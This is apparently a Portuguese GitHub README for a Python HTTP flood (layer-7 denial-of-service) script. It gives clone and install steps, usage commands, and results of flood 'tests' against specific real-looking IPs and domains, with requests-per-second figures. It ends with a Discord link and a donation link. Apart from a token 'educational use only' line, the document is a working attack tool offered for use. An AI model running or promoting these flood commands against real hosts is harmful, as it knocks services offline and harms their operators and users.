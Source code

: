 # Python HttpFlood [![Views](https://hits.sh/github.com/e43bpyfloodpt/hits.svg)](https://github.com/e43b/Python-HttpFlood/)

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HttpFlood/
cd Python-HttpFlood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração da Máquina e Testes
O script foi executado em uma máquina virtual com as seguintes especificações:
- CPU: 1 núcleo
- RAM: 2GB
- Velocidade de Internet: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (medido com speedtest-cli)

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500

## Autor
O criador desta ferramenta é [E43b](https://github.com/e43b/).

- **Discord:** [Servidor](https://discord.gg/CsBMMXBz7t)
- **Doação:** [Link para doação](https://oxapay.com/donate/40874860)

